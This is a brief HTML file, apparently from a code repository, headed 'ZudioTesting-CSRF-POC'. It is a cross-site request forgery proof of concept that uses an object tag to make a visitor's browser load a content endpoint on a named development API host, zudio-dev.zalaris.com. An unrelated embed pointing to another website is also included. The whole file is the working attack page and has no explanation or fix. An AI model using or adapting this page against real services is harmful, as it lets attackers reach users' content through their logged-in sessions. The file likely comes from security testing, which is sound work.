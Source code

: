 <html><h1>ZudioTesting-CSRF-POC</h1><!-- CSRF PoC - Zudio content Access --><body><object data="https://zudio-dev.zalaris.com/api/v1/content/655df7aaf97598352e49ce7c?" width="600" height="400"><embed src="http://www.web-source.net" width="600" height="400"> </embed>Error:Embedded data could not be displayed.</object></body></html>

